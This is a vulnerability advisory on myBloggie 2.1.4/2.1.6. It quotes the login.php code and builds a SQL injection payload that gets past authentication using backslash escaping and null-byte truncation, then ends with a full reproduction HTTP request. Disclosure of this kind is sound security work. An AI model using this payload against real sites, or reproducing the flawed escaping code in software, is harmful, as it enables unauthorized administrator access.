

## 1 Basic Vulnerability Information

- **Application Name:** myBloggie  
- **Application Link:** https://sourceforge.net/projects/mybloggie/  
- **Affected Versions:** 2.1.6, 2.1.4  
- **Vulnerability Type:** Weak Authentication (CWE-1390)  
- **Description & Impact:** A SQL injection vulnerability exists in the login interface of myBloggie, allowing attackers to inject malicious SQL queries and bypass authentication mechanisms.  
- **Contributor:** Qin Mai of VARAS@IIE

## 2 Vulnerability Analysis

The core authentication code is located in: `login.php:63`

```php
$username = htmlspecialchars(rtrim(trim($username), "\\"));
$username = substr(str_replace("\\'", "'", $username), 0, 25);
$username = str_replace("'", "\\'", $username);

$username = trim( $username );
$passwd = md5(trim( $passwd ));

$result = mysql_query( "SELECT user FROM ".USER_TBL." WHERE user='$username'
                  AND password='$passwd'" ) or error( mysql_error() );

if( mysql_num_rows( $result ) != 1 ) {
  // Failure
} else {
  // Success
}
```

### 2.1 SQL Injection Filter Bypass

+ The SQL query requires a closing single quote `'`. If the input `admin' or 1=1#` is submitted, it will be sanitized into `admin\' or 1=1#`, where the quote is escaped.
+ Since the code removes escape characters `\` using `rtrim( , "\\" )`,
+ If the payload `admin\' or 1=1` is submitted, it becomes `admin\\' or 1=1#` after processing.
+ The first backslash escapes the second one, so the `'` becomes a normal single quote again and is treated as SQL syntax. This results in a valid SQL injection condition.

### 2.2 Authentication Bypass

If simply submitting `admin\\' or 1=1`, the resulting SQL query becomes:

```sql
SELECT user FROM USER_TBL WHERE user='admin\\' or 1=1#'
                  AND password='$passwd'
```

However, because `#` and `--` are single-line comment symbols, while `/**/` comments require a closing delimiter, the next line `AND password='$passwd'` is still interpreted as part of the SQL statement. This clearly results in a syntax error and causes the program to exit, so the bypass still cannot succeed.

+ **Using null-byte truncation:**  
  Since this version of myBloggie normally runs on PHP 5.x (5.0–5.6), and the test environment is PHP 5.3.29-nts, null-byte truncation is possible.

+ A payload can therefore be constructed as: `admin\\' or 1=1;\x00#` ,where `\x00` represents a null byte, inserted by modifying the request in hex format.

Because:

`SELECT user FROM USER_TBL WHERE user='admin\\' or 1=1;`  

returns all usernames, this payload only works when the user table contains **one** administrator.  
If there are multiple users, adding a `LIMIT` clause solves the issue.  
Thus the final payload becomes:

```
admin\' or 1=1 limit 1;\x00#
```

## 3. Vulnerability Reproduction

Example request:

```http
POST /mybloggie/login.php?mode=login HTTP/1.1
Host: 192.168.66.118
Content-Length: 62
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

username=adm\\' or 1=1 limit 1;\x00#
```

